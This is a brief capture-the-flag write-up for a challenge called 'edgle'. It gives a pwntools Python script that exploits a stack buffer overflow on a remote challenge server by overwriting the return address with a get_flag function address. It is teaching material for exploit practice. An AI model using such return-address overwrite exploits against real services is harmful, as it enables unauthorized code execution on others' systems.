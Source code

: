 # edgle
> LongChampion, 06/04/2020

## Challenge
Just a basic buffer overflow problem!

## Solution
```python
#!/usr/bin/env python2
from pwn import *

r = remote("jh2i.com", 50039)
get_flag_addr = 0x080484F6
payload = 'A' * 0x48 + p32(0) + p32(get_flag_addr)
r.sendlineafter("Avast!", payload)
print r.recvall()
```
